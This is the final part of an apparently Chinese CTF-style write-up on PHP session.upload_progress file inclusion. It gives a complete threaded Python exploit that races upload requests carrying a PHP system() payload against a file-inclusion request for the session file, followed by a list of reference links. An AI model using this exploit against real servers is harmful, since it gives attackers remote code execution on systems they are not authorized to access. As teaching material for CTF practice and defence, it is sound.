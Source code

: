 完整代码

```
import threading
import requests

target_url = "http://xxx.xxx.xxx.xxx/index.php"#据情况而定
session_id = "flag"#自行决定
expcode = {"PHP_SESSION_UPLOAD_PROGRESS":"<?php system('ls');?>"}#自行要执行的代码
MyCookie = {'PHPSESSID': sessid}#设置本地cookie值和自定义的session_id一致
proxies = {
    "http": "127.0.0.1:8080",
}#设置本机代理，也可以不设置

def send_file(session):#形参为后面多线程的指令集提供入口
    while True:
        resp = requests.post(url=target_url, data=expcode, files={'file': ('res.txt', "nothing")}, cookies=MyCookie)
        
def getflag(session):
    while True:
        payload_url = target_url + '?file=' + '/tmp/sess_' + session_id
        #根据漏洞进行伪协议读取文件
        resp = requests.get(url=payload_url)
        if 'upload_progress' in resp.text:
            print(resp.text)
            break

if __name__ == '__main__':
    session = requests.session()
    t = threading.Thread(target=send_file, args=(session,))#为竞争函数创建一个新线程
    t.start()
    #两个线程独立运行
    getflag(session)
```

###### 参考文献与拓展

[什么是session | 许小珂 (xuxiaoke.com)](https://www.xuxiaoke.com/phpnote/35.html)

[从第五空间 2021\EasyCleanup认识php_session_Aiwin-Lau的博客-CSDN博客](https://blog.csdn.net/weixin_53090346/article/details/125037416)

[PHP Session.upload_progress - chalan630 - 博客园 (cnblogs.com)](https://www.cnblogs.com/chalan630/p/14147602.html)

[PHP：会话上传进度 （php官网）](https://www.php.net/manual/en/session.upload-progress.php#:~:text=Session Upload Progress. When the session.upload_progress.enabled INI option,(via XHR for example) to check the status.)

[对于session.upload_progress漏洞的理解_huamanggg的博客-CSDN博客](https://blog.csdn.net/m0_51078229/article/details/114440061)

[详解利用session进行文件包含*合天网安实验室的博客-CSDN博客*session文件包含](https://blog.csdn.net/qq_38154820/article/details/120300273)
